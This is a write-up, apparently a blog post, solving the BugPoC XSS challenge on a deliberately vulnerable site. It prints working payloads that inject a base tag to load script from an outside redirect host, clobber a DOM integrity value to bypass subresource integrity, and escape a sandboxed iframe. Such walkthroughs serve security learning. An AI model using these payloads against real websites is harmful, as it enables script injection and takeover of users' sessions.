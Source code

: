 # BugPoC XSS Challenge
[Announcement on HackerOne](https://hackerone.com/bugpoc/updates) *(04.11.20 - 09.11.20)*
```
Rules
1. You must alert(origin) showing https://wacky.buggywebsite.com
2. You must bypass CSP
3. It must be reproducible using the latest version of Chrome
4. You must provide a working proof-of-concept on bugpoc.com
```
## Introduction
This blog post will describe how I solved the XSS challenge by BugPoc. As always when enumerating webpages, we should use an interception proxy to  keep track of all the requests. I will use `Burp Suite` to intercept requests and the `FoxyProxy` plugin to configure the browser's proxy settings. As written in the rules, we need to use the actual version of the `Chrome Browser`.

## Enumeration
The target is `https://wacky.buggywebsite.com`, which looks like this.

![Website https://wacky.buggywebsite.com](./pictures/bugpoc-xss/defaultwacky.png)

When first visiting the website and redirecting the traffic through Burp, the following requests get captured.

![First Requests while loading the website](./pictures/bugpoc-xss/firstrequests.png)

One of the first things I recognized is, that when clicking at `Make Whacky!` I don't see any additional requests in Burp. Everything will be loaded from cache. Only when changing the content of the text box to a new value, a new request will be send to the server. When testing for xss and entering some special characters into the textbox, everything gets deleted instantly. So I checked the `/script.js` next. 

![script.js](./pictures/bugpoc-xss/scriptjs.png)

The first part of the script checks if the chrome browser is used. The second part will remove all special characters after a key was pressed and the last part will create the request, when pressing the button. 

To check for xss I entered something to the textbox, clicked the button and intercepted the request. I changed the value of `param` to a default xss value like `<script>alert()</script>` and url encoded it.

![Interception of a request in Burp](./pictures/bugpoc-xss/firstintercept.png)

Of course I didn't get an alert afterwards, but let's look at the results. The website is displaying it as default text only.

![Injected XSS string](./pictures/bugpoc-xss/scriptwacky.png)

Let's take a closer look to the response in Burp. We see our code in two places of the response.

![Script in Title Tags](./pictures/bugpoc-xss/scriptintitle.png) ![Script in Textbox](./pictures/bugpoc-xss/scriptintextbox.png) 

The second part got encoded and will be displayed in the website, which won't help, but the first part is interesting. I wrote inside the `<title>` tag and it's not html encoded. There is also the `content-security-policy`, which is explained [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). It allowes scripts with a valid `nonce` only, which will be generated randomly by every request. 

I googled for ways to bypass the CSP or the nonce and came up whith the `<base>` tag. (Later I found a very easy way to check the CSP for weak configurations. [CSP Evaluator](https://csp-evaluator.withgoogle.com/)) The `base-uri` sets allowed urls and block everything else, but it's not set inside the CSP. It's possible to set a [base](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) inside the HTML code, which will be used for all scripts with relative paths and luckily there is one in the source code.

![Script with relative path](./pictures/bugpoc-xss/scriptrelativepath.png)

The script uses the relative path `files/analytics/js/frame-analytics.js`, which prints some information to the console log in Chrome.

![Script frame-analytics.js](./pictures/bugpoc-xss/frame-analyticsjs.png)

I tried to redirect the script to my own domain by setting up an `Mock Endpoint` on [BugPoc](https://bugpoc.com/) and an `Redirection URL`, which points to the enpoint. It didn't work without the redirection because the script will load with the base url and the relative path, which won't work with the endpoint. The redirection url will catch the call to the url and redirect it to our endpoint. Back to the xss... 

## Exploit

First the title tag needs to be closed. After that the base tag can be injected, which will change the path of the script. This results in the following code: 
```
</title><base href="https://qbxfs9wso8pi.redir.bugpoc.ninja/">
```
When intercepting the request with Burp and changing the value of param I got the following result.

![Script got redirected](./pictures/bugpoc-xss/redirectedbutblocked.png)

The script was successfully redirected, but blocked because of a wrong file integrity hash. I needed to bypass that file integrity... 
```
window.fileIntegrity = window.fileIntegrity || {
    'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
    'algorithm' : 'sha256',
    'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
    'creationtime' : 1602687229
}
// verify we are in an iframe
if (window.name == 'iframe') {
    
    // securely load the frame analytics code
    if (fileIntegrity.value) {
			
        // create a sandboxed iframe
        analyticsFrame = document.createElement('iframe');
        analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
        analyticsFrame.setAttribute('class', 'invisible');
        document.body.appendChild(analyticsFrame);

        // securely add the analytics code into iframe
        script = document.createElement('script');
        script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
        script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
        script.setAttribute('crossorigin', 'anonymous');
        analyticsFrame.contentDocument.body.appendChild(script);
    }
```
After carefully analyzing the code I recognized the difference in `window.fileIntegrity` and `fileIntegrity.value`. It's possible to use it in both ways.

I could set a new FileIntegrity.value by adding an object with the same name. This type of vulnerability is called [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). I changed the script on the `Mock Endpoint` and created a new redirection url.

![First Mock Endpoint](./pictures/bugpoc-xss/mockendpointfirst.png)
![First Redirection URL](./pictures/bugpoc-xss/redirectorfirst.png)

The hash can be calculated easily, which can be found [here](https://w3c.github.io/webappsec-subresource-integrity/#integrity-metadata-description). I downloaded my script by following my redirection url and used the following command to calculate the hash.
```
cat exploit.js | openssl dgst -sha256 -binary | openssl base64 -A
```
This resulted in the following xss:
```
</title><base href="https://zmcckylbygi1.redir.bugpoc.ninja/"><input type="hidden" id="fileIntegrity" value="9a8YfL2BJMHZ6DfMuqE+tymKOGihIn6qdm3OpwrXjN0=">
```
![Successfully injected the hash](./pictures/bugpoc-xss/redirectedbutnoalert.png)

I successfully injected the hash but I couldn't execute an alert message, which is part of the rules. 
```
// create a sandboxed iframe
analyticsFrame = document.createElement('iframe');
analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
analyticsFrame.setAttribute('class', 'invisible');
document.body.appendChild(analyticsFrame);
```
The script loads inside of an iframe with the sandbox [attribute](https://www.w3schools.com/tags/att_iframe_sandbox.asp). But there are also the attributes allow-scripts and allow-same-origin, which can be abused. I found [this article](https://danieldusek.com/escaping-improperly-sandboxed-iframes.html) about escaping from sandboxed iframes. The `window.parent` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/parent) is a reference to the parent window and can be used to create objects outside of the iframe. 

At this point I made it much more difficult. Somehow I decided to create a new iframe on the website and attach a new script to it instead of just creating the alert. This can easily be done by `window.parent.alert(origin);` instead of `window.alert(origin)`. [0xTyrox](https://twitter.com/0xtyrox) drew my attention on this afterwards. Just changing the sandbox property of the iframe won't work. The browser will still block the content and ignore the change.

After changing the hosted script and recalculating the hash I ran the xss again. 

![Successfull XSS](./pictures/bugpoc-xss/xssalert.png)
![Successfull XSS](./pictures/bugpoc-xss/xssalert2.png)

## Proof of Concept
There was one last part that I needed to bypass. It was part of the rules to provide a working poc on BugPoc where I can't intercept requests by Burp. When making a request to `https://wacky.buggywebsite.com/frame.html?param=abc` directly, I got a different result.

![Error when accessing the URL](./pictures/bugpoc-xss/failureframe.png)

The script includes a check if the current window is named `iframe`.
```
if (window.name == 'iframe') {
    
    // securely load the frame analytics code
    if (fileIntegrity.value) {
        [...]
    }

} else {
    document.body.innerHTML = `
    <h1>Error</h1>
    <h2>This page can only be viewed from an iframe.</h2>
    <video width="400" controls>
        <source src="movie.mp4" type="video/mp4">
    </video>`
}
```	
I already have code execution, so why not changing the value of `window.name` before visiting the website? It will stay the same when changing to a different website.
```
window.name = "iframe";
```
And finally a fully working exploit.

### You can run my proof of concept on BugPoC:
> [BugPoc XXS Challenge - XSS on wacky.buggywebsite.com](https://bugpoc.com/poc#bp-7qAf5r2T) 

> Password: `giGgLYbonObo95`

Maybe you also wanna take a look at [0xTyrox's](https://tyrox.blog) Writeup.